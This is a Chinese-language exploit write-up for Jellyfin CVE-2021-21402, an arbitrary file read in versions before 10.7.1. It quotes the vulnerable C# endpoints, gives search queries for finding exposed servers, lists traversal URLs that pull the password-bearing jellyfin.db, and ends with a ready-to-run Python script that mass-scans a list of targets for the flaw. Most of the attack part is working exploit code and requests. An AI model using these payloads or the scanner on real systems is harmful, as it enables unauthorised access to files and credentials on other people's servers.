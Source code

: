 # Jellyfin 任意文件读取漏洞 CVE-2021-21402

## 漏洞描述

Jellyfin是一个免费软件媒体系统。在10.7.1版之前的Jellyfin中，带有某些终结点的精心设计的请求将允许从Jellyfin服务器的文件系统中读取任意文件。当Windows用作主机OS时，此问题更为普遍。暴露于公共Internet的服务器可能会受到威胁。在版本10.7.1中已修复此问题。解决方法是，用户可以通过在文件系统上实施严格的安全权限来限制某些访问，但是建议尽快进行更新。

## 漏洞影响

```
Jellyfin < 10.7.1
```

## 网络测绘

```
title='Jellyfin' || body='http://jellyfin.media'
```

## 漏洞复现

无论是`/Audio/{Id}/hls/{segmentId}/stream.mp3`和`/Audio/{Id}/hls/{segmentId}/stream.aac`路线允许任意文件在Windows上读取。可以`{segmentId}`使用Windows路径分隔符`\`（对`%5C`URL进行编码）将路由的一部分设置为相对或绝对路径。最初，攻击者似乎只能读取以`.mp3`和`.aac`结尾的文件。但是，通过在URL路径中使用斜杠

Path.GetExtension(Request.Path)`返回一个空扩展名，从而获得对结果文件路径的完全控制。的`itemId，因为它没有使用也没有关系。该问题不仅限于Jellyfin文件，因为它允许从文件系统读取任何文件。

```java
// Can't require authentication just yet due to seeing some requests come from Chrome without full query string
// [Authenticated] // [1]
[HttpGet("Audio/{itemId}/hls/{segmentId}/stream.mp3", Name = "GetHlsAudioSegmentLegacyMp3")]
[HttpGet("Audio/{itemId}/hls/{segmentId}/stream.aac", Name = "GetHlsAudioSegmentLegacyAac")]
//...
public ActionResult GetHlsAudioSegmentLegacy([FromRoute, Required] string itemId, [FromRoute, Required] string segmentId)
{
    // TODO: Deprecate with new iOS app
    var file = segmentId + Path.GetExtension(Request.Path); //[2]
    file = Path.Combine(_serverConfigurationManager.GetTranscodePath(), file);

    return FileStreamResponseHelpers.GetStaticFileResult(file, MimeTypes.GetMimeType(file)!, false, HttpContext);
}
```

使用如下请求将会读取带有密码的数据库文件

```plain
http://xxx.xxx.xxx.xxx /Audio/anything/hls/..%5Cdata%5Cjellyfin.db/stream.mp3/
```

另一处代码如下

```java
// Can't require authentication just yet due to seeing some requests come from Chrome without full query string
// [Authenticated] //[1]
[HttpGet("Videos/{itemId}/hls/{playlistId}/{segmentId}.{segmentContainer}")]
//...
public ActionResult GetHlsVideoSegmentLegacy(
    [FromRoute, Required] string itemId,
    [FromRoute, Required] string playlistId,
    [FromRoute, Required] string segmentId,
    [FromRoute, Required] string segmentContainer)
{
    var file = segmentId + Path.GetExtension(Request.Path); //[2]
    var transcodeFolderPath = _serverConfigurationManager.GetTranscodePath();

    file = Path.Combine(transcodeFolderPath, file); //[3]

    var normalizedPlaylistId = playlistId;

    var filePaths = _fileSystem.GetFilePaths(transcodeFolderPath);
    // Add . to start of segment container for future use.
    segmentContainer = segmentContainer.Insert(0, ".");
    string? playlistPath = null;
    foreach (var path in filePaths)
    {
        var pathExtension = Path.GetExtension(path);
        if ((string.Equals(pathExtension, segmentContainer, StringComparison.OrdinalIgnoreCase)
                || string.Equals(pathExtension, ".m3u8", StringComparison.OrdinalIgnoreCase)) //[4]
            && path.IndexOf(normalizedPlaylistId, StringComparison.OrdinalIgnoreCase) != -1) //[5]
        {
            playlistPath = path;
            break;
        }
    }

    return playlistPath == null
        ? NotFound("Hls segment not found.")
        : GetFileResult(file, playlistPath);
}
```

该`/Videos/{Id}/hls/{PlaylistId}/{SegmentId}.{SegmentContainer}`路由允许在Windows上读取未经身份验证的任意文件。可以`{SegmentId}.{SegmentContainer}`使用Windows路径分隔符`\`（对`%5C`URL进行编码）将路由的一部分设置为相对或绝对路径。在`SegmentId`从和文件扩展名`Path`被级联。结果`file`用作`Path.Combine`[3]的第二个参数。但是，如果第二个参数是绝对路径，则第一个参数to将`Path.Combine`被忽略，而得到的路径仅是绝对路径`file`。

POC如下，下载同样的文件

```plain
http://xxx.xxx.xxx.xxx/Videos/anything/hls/m/..%5Cdata%5Cjellyfin.db
```

如上为证明漏洞存在和可利用性，详情链接参考

https://securitylab.github.com/advisories/GHSL-2021-050-jellyfin/

## 漏洞POC

```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mVersion: Jellyfin < 10.7.1                                        \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mFile         >>> ip.txt                                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/Audio/1/hls/..%5C..%5C..%5C..%5C..%5C..%5CWindows%5Cwin.ini/stream.mp3/"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=2)
        if response.status_code == 200 and "file" in response.text and "extension" in response.text and "font" in response.text:
            print("\033[32m[o] 目标 {} 存在漏洞(读取 windows/win.ini), 链接为:{} \033[0m".format(target_url, vuln_url))
        else:
            print("\033[31m[x] 目标 {} 不存在漏洞 \033[0m".format(target_url))
    except Exception as e:
        print("\033[31m[x] 目标 {} 请求失败 \033[0m".format(target_url))

def Scan(file_name):
    with open(file_name, "r", encoding='utf8') as scan_url:
        for url in scan_url:
            if url[:4] != "http":
                url = "http://" + url
            url = url.strip('\n')
            try:
                POC_1(url)

            except Exception as e:
                print("\033[31m[x] 请求报错 \033[0m".format(e))
                continue

if __name__ == '__main__':
    title()
    file_name  = str(input("\033[35mPlease input Attack File\nFile >>> \033[0m"))
    Scan(file_name)
```

